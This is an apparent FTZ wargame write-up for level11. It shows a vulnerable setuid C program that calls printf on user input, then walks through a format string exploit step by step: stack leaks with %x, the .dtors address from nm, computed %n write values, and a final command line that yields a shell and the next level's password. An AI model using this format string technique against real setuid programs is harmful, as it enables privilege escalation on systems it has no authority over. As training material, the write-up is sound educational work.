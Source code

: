 # Level11

## This level's goal

- FSB(Format String Bug)
- Shell code

***

```
[level11@ftz level11]$ ls -l
total 28
-rwsr-x---    1 level12  level11     13733 Mar  8  2003 attackme
-rw-r-----    1 root     level11       168 Mar  8  2003 hint
drwxr-xr-x    2 root     level11      4096 Feb 24  2002 public_html
drwxrwxr-x    2 root     level11      4096 Jan 14  2009 tmp

[level11@ftz level11]$ cat hint

#include <stdio.h>
#include <stdlib.h>

int main( int argc, char *argv[] )
{
        char str[256];

        setreuid( 3092, 3092 );
        strcpy( str, argv[1] );
        printf( str );
}
```

The hint seems the vulnerability of FSB and BOF   
I will exploit with FSB

```
[level11@ftz level11]$ ./attackme
Segmentation fault
```

This seems that Segmentation falut will be printed if there is no argument and then the argv[1] is the value of garbage.

```
[level11@ftz level11]$ ./attackme "AAAA"
AAAA
[level11@ftz level11]$ ./attackme "AAAA %x"
AAAA bffffc40
[level11@ftz level11]$ ./attackme "AAAA %x %x"
AAAA bffffc3d bffff300
[level11@ftz level11]$ ./attackme "AAAA %x %x %x"
AAAA bffffc3a bfffdb80 1
[level11@ftz level11]$ ./attackme "AAAA %x %x %x %x"
AAAA bffffc37 bfffde00 1 41414141
```

AAAA means 41414141

```
[level11@ftz level11]$ nm attackme
08049610 d __DTOR_END__

[level11@ftz tmp]$ ./egg
Using address: 0xbfffe988

[level11@ftz tmp]$ ./getenv
SUPERDK's addr=0xbffff49d
```

The attack code format   
`/home/level11/attackme $(printf "AAAAAddress1BBBBAddress2")%8x%8x%8x%Value1c%n%Value2c%n`

Address1 : \x10\x96\x04\x08(08049610)   
Address2(Address+1) : \x12\x96\x04\x08(08049612)   

0xbffff49d will be (Value2/Value1) cuz this will be inverted when you input   
Value1 : f49d - 40 = 62621(f49d) - 40 = 62581   
Value2 : 1bfff-f49d = 114687(1bfff) - 62621(f49d) = 52066

So, the attack code is   
`/home/level11/attackme $(printf "AAAA\x10\x96\x04\x08BBBB\x12\x96\x04\x08")%8x%8x%8x%62581c%n%52066c%n`

```
[level11@ftz level11]$ ./attackme $(printf "AAAA\x10\x96\x04\x08BBBB\x12\x96\x04\x08")%8x%8x%8x%62581c%n%52066c%n

sh-2.05b$ my-pass

Level12 Password is "it is like this".
```
